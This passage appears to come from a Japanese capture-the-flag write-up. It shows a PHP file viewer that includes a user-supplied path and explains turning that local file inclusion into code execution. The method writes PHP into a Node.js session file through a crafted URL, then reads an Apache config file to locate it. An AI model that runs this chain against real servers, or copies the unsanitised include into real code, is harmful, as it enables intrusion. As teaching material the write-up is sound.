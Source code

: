 Base64 デコードします。

```php
<h1>Admin Fileviewer(using include)</h1>
<?php
include $_GET['dir'];
?>
```

当たりのようです。この LFI を使えば、このサーバのどこかに `<?php phpinfo(); ?>` という内容のファイルを書き込むことさえできれば RCE に持ち込むことができるはずですが、そんな方法はあるのでしょうか。

`server.js` がセッションをサーバに保存するような実装になっていることを思い出しましょう。セッションデータとして任意の文字列を仕込むことができるような機能も、ちゃんと搭載されています。

```javascript
	app.get('/:dir', function(req, res){
		var session = req.session;
		session.log = req.params.dir;
		res.statusCode = 404;
		res.end('404 Error');
	});
```

これを使えば `/<%3fphp%20phpinfo();%20%3f>` にアクセスすることでセッションデータが保存されているファイルに `<?php phpinfo(); ?>` が書き込まれます。

あとはセッションデータが保存されているファイルのパスを推測するだけです。ローカル環境で、このアプリと同じような設定で `session-file-store` を使ったコードを書いてみると `(__dirname)/sessions/(セッション ID).json` に JSON 形式で保存されていることがわかります。

`/tunnel?dir=/etc/apache2/sites-enabled/000-default.conf` で Apache の設定を見てみると、`__dirname` を推測することができます。

```
<VirtualHost *:80>
	# The ServerName directive sets the request scheme, hostname and port that
	# the server uses to identify itself. This is used when creating
	# redirection URLs. In the context of virtual hosts, the ServerName
	# specifies what hostname must appear in the request's Host: header to
	# match this virtual host. For the default virtual host (this file) this
	# value is not decisive as it is used as a last resort host regardless.
	# However, you must set it for any further virtual host explicitly.
	#ServerName www.example.com

	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/php

	# Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
	# error, crit, alert, emerg.
	# It is also possible to configure the loglevel for particular
	# modules, e.g.
	#LogLevel info ssl:warn

	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined

	# For most configuration files from conf-available/, which are
	# enabled or disabled at a global level, it is possible to
	# include a line for only one particular virtual host. For example the
	# following line enables the CGI configuration for this host only
	# after it has been globally disabled with "a2disconf".
	#Include conf-available/serve-cgi-bin.conf
</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```
